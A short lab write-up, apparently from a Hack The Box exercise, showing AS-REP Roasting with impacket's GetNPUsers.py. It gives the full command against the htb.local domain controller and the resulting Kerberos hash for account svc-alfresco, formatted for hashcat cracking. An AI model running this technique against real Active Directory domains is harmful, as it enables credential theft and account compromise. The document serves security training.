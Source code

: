 # Using GetNPUsers.py of impacket tool for [AS-REP Roasting](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/) (to get TGT hash)
`GETNPUsers.py` is used to query target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking.
Using `GETNPUsers.py` to get TGT hash.
```bash
❯ python3 GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-07-27 13:38:11.210929  2019-09-23 16:09:47.931194  0x410200



$krb5asrep$23$svc-alfresco@HTB.LOCAL:4f60c362d3d5c16401891d90fade9548$4fbea99781491d2635b13948e0b6a0c949c125a480b3f41acb7191726d5e21cd3347b427ff0b9d72cf0d4f582bb4a60cf6f7ee6d39b69a43035e9376126de14e3a89906e6068f73f69adc3acdca591a194d907ef259373fe755b60e1a89ee183945e895c6a9a0f0cd015db45ca871eaf7ed98c2ad1b854fe9a9b92c950b25d50f83ad98b74f64e026f85c05152d5d98cde57480c2a5ba21ba80a648a0902fa91f9712715991fc35f73b343f8c698a1969934f6fa1b37ca4d7d875348b12e255a76d24a2341564b8580e961db3bb78fd01c78e87835af29a536e871b924cca3ee515bcf6376ba
```
